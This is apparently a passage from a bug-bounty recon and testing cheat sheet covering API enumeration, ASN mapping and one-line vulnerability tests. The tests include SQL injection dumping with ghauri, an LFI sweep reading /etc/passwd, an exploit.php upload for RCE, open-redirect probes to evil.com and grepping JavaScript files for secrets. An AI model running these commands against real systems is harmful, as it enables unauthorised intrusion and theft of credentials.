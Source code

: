 ### **3.4 API Enumeration**

**🛠️Tools:** [Kiterunner](https://github.com/assetnote/kiterunner), [Postman](https://www.postman.com/), [Burp Suite](https://portswigger.net/burp)

Kiterunner
```bash
kr scan https://api.target.com -w /usr/share/kiterunner/routes-large.kite -o api_routes.txt
```

### **3.5 ASN Mapping**

**🛠️Tools:** [Amass](https://github.com/OWASP/Amass), [Shodan](https://www.shodan.io/), [Censys](https://censys.io/)

ASN Lookup
```bash
amass intel -asn <ASN_Number> -o asn_ips.txt
```

Shodan Enumeration
```bash
shodan search "net:<ip_range>" --fields ip_str,port --limit 100
```

Censys Asset
```bash
censys search "autonomous_system.asn:<ASN_Number>" -o censys_assets.txt
```

---

<br>


## **4. Vulnerability Testing**

SQLi
```bash
ghauri -u "https://target.com?id=1" --dbs --batch
```

LFI
```bash
cat live_websites.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I@ curl -s @ | grep "root:x:" > lfi_results.txt
```

CSRF
```bash
cat live_websites.txt | gf csrf | tee csrf_endpoints.txt
```

RCE
```bash
curl -X POST -F "file=@exploit.php" https://target.com/upload
```

Open Redirect
```bash
cat urls.txt | grep "=http" | qsreplace "https://evil.com" | xargs -I@ curl -I -s @ | grep "evil.com"
```

Sensitive Data
```bash
cat js_files.txt | grep -Ei "key|token|auth|password" > sensitive_data.txt
```

